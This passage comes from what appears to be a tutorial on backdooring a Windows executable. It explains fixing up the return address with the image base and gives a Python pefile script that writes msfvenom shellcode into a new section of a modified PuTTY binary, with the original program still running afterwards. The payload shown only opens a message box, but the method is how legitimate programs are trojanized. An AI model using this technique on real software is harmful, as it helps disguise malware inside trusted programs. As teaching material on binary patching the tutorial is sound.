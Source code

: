 To not break the application flow, replace the last bytes of the shellcode from `\x31\xc0\x50\xff\x55\x08` to `\xB8\xF0\x50\x45\x00\xFF\xD0`.

You should be asking why our original entry point (`0x000550f0`) is different from the one we use in our shellcode (`0x004550f0`). That's because once loaded in memory, the loader add the image base (`0x00400000`), contained in the `OPTIONAL_HEADER` to the entry point. If we don't add the image base, we will redirect the execution flow to an incorrect address and break the application.

Here is the result after the modification of the shellcode:

```python
import pefile

exe_path = "putty_mod.exe"
pe = pefile.PE(exe_path)

number_of_section = pe.FILE_HEADER.NumberOfSections
last_section = number_of_section - 1
raw_offset = pe.sections[last_section].PointerToRawData

# msfvenom -a x86 --platform windows -p windows/messagebox \
# TEXT="Hello, I'm in ur code" ICON=INFORMATION EXITFUNC=process \
# TITLE="BreakInSecurity" -f python
# No encoder or badchars specified, outputting raw payload
# Payload size: 283 bytes
# Final size of python file: 1362 bytes
shellcode = bytes(b"\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9"
                  b"\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08"
                  b"\x8b\x7e\x20\x8b\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1"
                  b"\xff\xe1\x60\x8b\x6c\x24\x24\x8b\x45\x3c\x8b\x54\x28"
                  b"\x78\x01\xea\x8b\x4a\x18\x8b\x5a\x20\x01\xeb\xe3\x34"
                  b"\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0\xfc\xac\x84"
                  b"\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c\x24"
                  b"\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b"
                  b"\x5a\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c"
                  b"\x61\xc3\xb2\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e"
                  b"\x0e\xec\x52\xe8\x9f\xff\xff\xff\x89\x45\x04\xbb\x7e"
                  b"\xd8\xe2\x73\x87\x1c\x24\x52\xe8\x8e\xff\xff\xff\x89"
                  b"\x45\x08\x68\x6c\x6c\x20\x41\x68\x33\x32\x2e\x64\x68"
                  b"\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89\xe6\x56"
                  b"\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
                  b"\x24\x52\xe8\x5f\xff\xff\xff\x68\x69\x74\x79\x58\x68"
                  b"\x65\x63\x75\x72\x68\x6b\x49\x6e\x53\x68\x42\x72\x65"
                  b"\x61\x31\xdb\x88\x5c\x24\x0f\x89\xe3\x68\x65\x58\x20"
                  b"\x20\x68\x20\x63\x6f\x64\x68\x6e\x20\x75\x72\x68\x27"
                  b"\x6d\x20\x69\x68\x6f\x2c\x20\x49\x68\x48\x65\x6c\x6c"
                  b"\x31\xc9\x88\x4c\x24\x15\x89\xe1\x31\xd2\x6a\x40\x53"
                  b"\x51\x52\xff\xd0\xB8\xF0\x50\x45\x00\xFF\xD0")


# Write the shellcode into the new section
pe.set_bytes_at_offset(raw_offset, shellcode)
pe.write(exe_path)
```
